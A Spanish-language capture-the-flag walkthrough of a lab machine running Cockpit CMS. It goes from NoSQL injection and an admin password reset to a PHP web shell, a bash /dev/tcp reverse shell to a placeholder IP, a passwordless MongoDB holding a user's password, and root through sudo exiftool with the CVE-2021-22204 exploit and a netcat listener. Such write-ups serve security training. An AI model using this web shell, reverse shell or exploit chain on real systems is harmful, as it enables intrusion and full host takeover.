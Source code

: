 ### Tags: ``NoSQL``  `RCE` ``exiftool`` ``mongo``

# Escaneo(*22, 80*)

```css
sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n -Pn <IP> -oN escaneo
```

![image](https://github.com/user-attachments/assets/7c1faa27-2654-4b6a-b92e-a3f9f62adda4)

# Port 80

Las web tiene un **panel de login**, intentamos inyecciones SQL pero nada

![image](https://github.com/user-attachments/assets/bb4c2a29-4f9e-48c0-834a-bd0bd9988ba0)

Haciendo `Ctrl + u` encontramos la versión del CMS 

![image](https://github.com/user-attachments/assets/2a0d6248-3e8d-477e-b6db-81cf6aa950da)

 Buscando en Google --> [Link](https://swarm.ptsecurity.com/rce-cockpit-cms/) encontramos que este CMS cockpit tiene algunas **vulnerabilidades** ``NoSQL`` que se pueden utilizar para volcar la **información de los usuarios**, lo que hacemos es interceptar la petición con `BurpSuite`

 ![image](https://github.com/user-attachments/assets/eca60d91-558f-4947-b6c7-2395ccc75ff0)

- Ahora vemos que genera un **token CSFR** para la autenticación y podemos ver los **nombres de usuarios** usando el operador ``$func`` de la biblioteca MongoLite. 
	- Obtuvimos 4 nombres de usuarios 

![image](https://github.com/user-attachments/assets/bbe75d12-f0ef-44b6-8891-9149c4740144)

# Inyección NoSQL en */auth/resetpassword*

Ahora la funcionalidad de restablecimiento de contraseñas se realiza mediante restablecimientos de token en `/auth/resetpassword`:

![image](https://github.com/user-attachments/assets/3ef995dd-7e5d-4828-ad92-0a88bb8fe42e)

###  Compromiso de cuenta de usuario

Ahora puedo volcar las credenciales del usuario cuyo token se ha creado ingresando a `/auth/newpassword` el token:

![image](https://github.com/user-attachments/assets/9a0c494c-2c5c-4273-87c3-f122286d4d3d)

- Con estos datos , ``--->`` nosotros vamos a poder cambiar la contraseña de administrador e iniciar sesión en la página de ``CMSpit``.
	- 1. Utilizar la aplicación con la clave API.
	- 2. Obtener por fuerza bruta la contraseña de la cuenta a partir del hash.
	- 3. Cambiar la contraseña de la cuenta utilizando el `/auth/resetpassword` método:

![image](https://github.com/user-attachments/assets/9985b0b9-fb47-45bc-bc79-3713d4fcc756)


# Dentro de la Web

Como vemos ahora estamos dentro de la web como el usuario `admin:test123`

![image](https://github.com/user-attachments/assets/e6e738ef-338f-45cf-81fe-1b4687079ba0)

## RCE

Una vez dentro de la cuenta de **administrador**, lo que podemos hacer es cargar un shell web utilizando el componente **Finder** estándar de Cockpit para conseguir la ejecución remota de código:

![image](https://github.com/user-attachments/assets/dd53676d-d49f-4f87-acbc-791a6b92676a)

Antes nos creamos este ``shell.php`` en la terminal para después subirlo

```php
<?php
        echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```

Una ves subido ponemos la `http://<ip>/shell.php?cmd=id`

![image](https://github.com/user-attachments/assets/0c1234fe-de48-4d4a-8c55-0c0ab61d18d6)

Nos mandamos una ReverseShell ---> `http://<ip>/shell.php?cmd=bash -c "bash -i >%26 /dev/tcp/<IP>/443 0>%261"`

![image](https://github.com/user-attachments/assets/6db8c1d9-a585-4adb-858a-7b293a970a52)

# Escalada (``stux``)

Con este comando `ss -ntulp`   enumero **puertos internos**  y vemos que en este puerto corre **MONGO**

![image](https://github.com/user-attachments/assets/48b814c7-fd39-43b6-bbed-5af7113e25c4)

Tratamos de conectarnos *sin proporcionar contraseña* y tuvimos éxito, ejecutando `mongo`en la terminal.

![image](https://github.com/user-attachments/assets/25c7c203-7318-4659-929f-dce49a2d1078)

Listamos las bases de datos disponibles con `show dbs`, `use sudoersbak` para acceder, `show collections;` para listar las tabas y por ultimo `db.flag.find();` para leer el contenido de la tabla.

![image](https://github.com/user-attachments/assets/cdf50aef-f631-4412-854d-59c379574357)

Encontramos la contraseña del user `stux:p4ssw0rdhack3d!123`

![image](https://github.com/user-attachments/assets/1648eddc-98df-4e7d-9a16-f8ee37b6c3be)
![image](https://github.com/user-attachments/assets/c265100a-5212-44b3-9e91-a9d19251022b)

# Escalada ``ROOT``

Haciendo `sudo -l` podemos ejecutar **exiftool** como root . ---> (me conecte por ssh como stux porque tuve que reiniciar la máquina)

![image](https://github.com/user-attachments/assets/f8dcaee5-25b1-4c3d-a121-dac6fd1ee980)

Buscando en Google de como escalar a root encontramos este [EnlaceExploit](https://github.com/convisolabs/CVE-2021-22204-exiftool), básicamente lo que tenemos que hacer es:

```ruby
git clone https://github.com/convisolabs/CVE-2021-22204-exiftool.git
cd CVE-2021-22204-exiftool
```

Una ves clonado y dentro del repo tenes que instalar esto: ``-->`` (si te llega a dar **error** como ami, hace un  `sudo apt-get update` y lo instalas)

```ruby
sudo apt install djvulibre-bin exiftool
```

Ahora lo que haces es en la terminal, **te abrís el archivito** llamado `exploit.py` y editas el script poniendo tu **IP** y el **puerto** de escucha que quieras, una ves hecho eso lo ejecutas en la terminal así:

```bash
python3 exploit.py
```

Automáticamente se te crea una imagen llamada `image.jpg`, lo que haces es transferirte esa imagen a la máquina victima de esta forma:

```bash
#máquina atacante
python3 -m http.server

#máquina víctima
wget http://<IP>/image.jpg
```

Una ves que se transfirió la imagen, abrís otra terminal para ponerte en escucha con `netcat` por el puerto especificado, ejecutas con sudo el binario:

```bash
#máquina atacante 
nc -nlvp <puerto_especificado>

#máquina víctima
sudo /usr/local/bin/exiftool image.jpg
```

![image](https://github.com/user-attachments/assets/b7948fc2-dec3-4afe-bc7c-93767f79f074)

Y listo somos !**ROOT**!

![image](https://github.com/user-attachments/assets/2f2f323c-2c12-40e9-b24f-643865b8fe27)
















